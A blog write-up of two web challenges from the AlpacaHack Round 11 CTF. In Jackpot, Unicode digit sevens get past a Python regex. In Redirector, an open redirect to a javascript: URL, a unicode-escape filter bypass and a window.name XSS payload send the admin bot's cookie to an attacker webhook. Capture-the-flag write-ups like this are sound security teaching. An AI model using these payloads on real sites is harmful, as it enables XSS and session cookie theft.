









+++
title = 'AlpacaHack CTF Round 11(Web)'
date = 2025-05-18T19:05:35+05:30
draft = false
tags = ["web"]
+++


**tl;dr**

+ Writeup for Jackpot and Redirector from AlpacaHack Round 11(Web)
+ Jackpot - Use Unicode characters to send multiple 7's as candidates to get flag
+ Redirector - Open redirect -> filter bypass -> xss

<!--more-->

# Introduction

This is a writeup for two of the challenges that I worked on during the [AlpacaHack Round 11(Web)](https://alpacahack.com/ctfs/round-11/challenges) - Jackpot and Redirector. I was only able to solve Jackpot during the CTF but the remaining challenges were very interesting and you can check out the writeups for them [here](https://alpacahack.com/ctfs/round-11/writeups).

## Jackpot
**Challenge points**: 122
**No. of solves**: 63

### Challenge Description
🎰 Slot Machine 🎰

### Analysis
We are provided with the source code and the link to access a slot machine [like](http://34.170.146.252:33352/) interface. There is an input field where we have to enter 10 numbers and then hit the slot machine to see if we hit the jackpot. Lets take a closer look at how all this works in the backend.
```py
@app.get("/slot")
def slot():
    candidates = validate(request.args.get("candidates"))
    print("validated candidates:",candidates,flush=True)

    num = 15
    results = random.choices(candidates, k=num)

    is_jackpot = results == [7] * num  # 777777777777777

    return jsonify(
        {
            "code": 200,
            "results": results,
            "isJackpot": is_jackpot,
            "flag": FLAG if is_jackpot else None,
        }
    )
```
The 10 numbers we input are passed into the candidates variable which is then ran through the `validate` function. The win condition, ie the condition to get the flag, is that we should get 15 7's as the result of `random.choices(candidates, k=num)`. Since the candidates list is under our control, lets see what validation is done on it and if there is any way to bypass that and send 10 7's to game the slot machine.
```py
def validate(value: str | None) -> list[int]:
    print("value in validate",value,flush=True)
    if value is None:
        raise BadRequest("Missing parameter")
    if not re.fullmatch(r"\d+", value):
        raise BadRequest("Not decimal digits")
    if len(value) < 10:
        raise BadRequest("Too little candidates")

    candidates = list(value)[:10]
    print("candidates:",candidates,flush=True)
    if len(candidates) != len(set(candidates)):
        raise BadRequest("Not unique")

    return [int(x) for x in candidates]
```
The conditions that the input we send should satisfy are:
+ Should match the regex `\d+` which matches digits
+ Should have more than 10 characters
+ First 10 characters should be unique, as is being checked by `len(candidates) != len(set(candidates))`

If all these conditions are met then each character in `candidates` is returned as an integer array. To return an array, `int(x)` is being called on each character. This made me think whether passing something like "7,7.1,7.2" will work as int(7.1) is 7 but sadly "." is not matched by the regex.

### Exploitation
Our goal is to send multiple 7's in any way so the next idea I had was if there are other characters, more specifically unicode characters, which will pass pythons `\d` regex check and be converted to 7 by `int(x)`. Instead of manually searching around/scripting to find unicode character 7's, ChatGPT was kind enough to give me one to test out my theory - `٧`(Arabic-Indic digit 7)

Testing it out in python proves our hypothesis that other unicode characters qualifies as digit and if we can find 9 more like the one above, we can solve the challenge. Once again, ChatGPT came in clutch and gave me a few more Unicode 7's, albeit after having a few hallucinations and giving me the same characters over and over again 🫠.

I managed to get 9 unique 7's after some filtering - ` ७౭৭٧૭۷୭௭7`

Since luck is on our side now(even though not fully as we lack 1 character) and cuz this challenge is about gambling anyway, I went ahead and submitted the above characters plus a random digit. A couple of slots later, we get the flag!


### Final Exploit

1. Submit `७౭৭٧૭۷୭௭71` -> get flag.
```html
http://34.170.146.252:33352/slot?candidates=%E0%A5%AD%E0%B1%AD%E0%A7%AD%D9%A7%E0%AB%AD%DB%B7%E0%AD%AD%E0%AF%AD71
```
> Flag = Alpaca{what_i5_your_f4vorite_s3ven?}

---

## Redirector

**Challenge points**: 341
**No. of solves**: 6

### Challenge Description
It's just a redirector.

### Analysis
We are provided with source code, challenge url and admin bot url. Upon inspecting the given source code, we can see that this is a pure client side challenge with the backend just being nodejs with fastify hosting an index.html file. The bot also is very straightforward - it visits any url provided and closes the page after 5 seconds. The flag is in a cookie on the APP_HOST url which is just `http://redirector:3000`. httpOnly flag is not set, hence our goal seems to be to get XSS on the redirector app domain and extract the flag using `document.cookie`
```js
try {
    await context.setCookie({
      name: "FLAG",
      value: FLAG,
      domain: APP_HOST,
      path: "/",
    });

const page = await context.newPage();
await page.goto(url, { timeout: 5_000 });
await sleep(5_000);
await page.close();
} catch (e) {
console.error(e);
}
```

Now lets take a look at the main functionality offered. It's just a Redirector app which takes a URL and redirects the user to the URL provided.
```html
<script>
    (() => {
    const next = new URLSearchParams(location.search).get("next");
    if (!next) return;

    const url = new URL(next, location.origin);
    const parts = [url.pathname, url.search, url.hash];

    if (parts.some((part) => /[^\w()]/.test(part.slice(1)))) {
        alert("Invalid URL 1");
        return;
    }
    if (/location|name|cookie|eval|Function|constructor|%/i.test(url)) {
        alert("Invalid URL 2");
        return;
    }

    location.href = url;
    })();
</script>
```
This is the code which handles the redirection. `next` argument is take  from URL search parameters and a few checks are done on it before setting `location.href = url`.
+ The Url `pathname`, `search` parameters, `hash` values should match the regex `/[^\w()]/` which only mathes alphanumeric characters and `()`.
+ The url should not have `/location|name|cookie|eval|Function|constructor|%/` these keywords or `%` anywhere.


### Exploitation
Since the URL protocol is not being checked, we can use `javascript://` urls.


Using this we have to find a way to bypass the restrictions and be able to perform XSS. `eval` is blocked so any path using other encodings or `String.fromCharCode` does not work here. Certain blocked characters can be [bypassed in Javascript](https://book.jorianwoltjer.com/languages/javascript#inside-a-string) using unicode but for that we need to able to send the `\` backslash character which is blocked by the regex.

This is where I got stuck for a long time during the CTF and the solution that I was closest to is [this](https://blog.maple3142.net/2025/05/17/alpacahack-round-11-writeups/en/) so i'll be using it as a reference.

A peculiar thing to note in the regex check is the use of `parts.slice(1)` on the URL parts which is basically done to remove the `/?#` characters from the parts extracted.

This becomes useful to us in the case of javascript uris.

The first character of our payload gets sliced out and hence is not being subjected to the regex check. This means that the first character is completely under our control and we are able to send `\` such that unicode character `\u0065` can be sent. This lets us do `javascript%3A\u0065val(alert(1))` which is `eval(alert(1))` and it bypasses the keyword check.

Using this we can try to eval(btoa("payload")) but `"` is needed so that does not work. Or eval(String.fromCharCode()) but `.` is not allowed(there is a bypass for this using with() which is used by [other writeups](https://nanimokangaeteinai.hateblo.jp/entry/2025/05/17/185012#f-f7e266ef)) 

Here is where an interesting functionality of `javascript:/` uri comes into play. According to the [spec](https://html.spec.whatwg.org/multipage/browsing-the-web.html#evaluate-a-javascript:-url):
>To evaluate a javascript: URL given a navigable targetNavigable, a URL url, an origin newDocumentOrigin, and a user navigation involvement userInvolvement:
>1. Let urlString be the result of running the URL serializer on url.
>2. Let encodedScriptSource be the result of removing the leading "javascript:" from urlString.
>3. Let scriptSource be the UTF-8 decoding of the percent-decoding of encodedScriptSource.
>4. Let settings be targetNavigable's active document's relevant settings object.
>5. Let baseURL be settings's API base URL.
>6. Let script be the result of creating a classic script given scriptSource, settings, baseURL, and the default script fetch options.
>7. Let evaluationStatus be the result of running the classic script script.
>8. Let result be null.
>9. If evaluationStatus is a normal completion, and evaluationStatus.[[Value]] is a String, then set result to evaluationStatus.[[Value]].
>10. Otherwise, return null.
>11. Let response be a new response with
>URL targetNavigable's active document's URL  
>header list « (`Content-Type`, `text/html;charset=utf-8`) »  
>body the UTF-8 encoding of result, as a body  

If the expression we supplied to the `javascript:` uri evaluates to a String then that is set as `result` and `result` is returned as a response `body`

```js
lmao="<h1>ok</h1>"
location.href="javascript:lmao"
```
I executed the above javascript on my console and `<h1>ok</h1>` got rendered as html. This is useful to us given we have control over any variable. 

Another blocked keyword which we can now use with the unicode bypass is `name` as `\u006eame` which is `window.name`. We can set the `name` of our window to anything and using the technique mentioned above, if we set it to xss payload to exfiltrate cookie, we can get the flag.

```js
name = '<script>window.location="<webhook_url>/flag"+document.domain<\/script>'
location.href="javascript:name"
```
Testing this locally results in us getting a request to attacker controlled webhook server.


### Final Exploit
1. host the following script on attacker controlled server/webhook
```html
<script>
    name = '<script>window.location="<webhook_url>/flag?"+document.cookie<\/script>'
    location = 'http://redirector:3000/?next=javascript%3A\\u006eame'
</script>
```
2. Send server/webhook link to admin bot.

> Flag = Alpaca{An_0pen_redirec7_is_definite1y_a_vuln3rability}
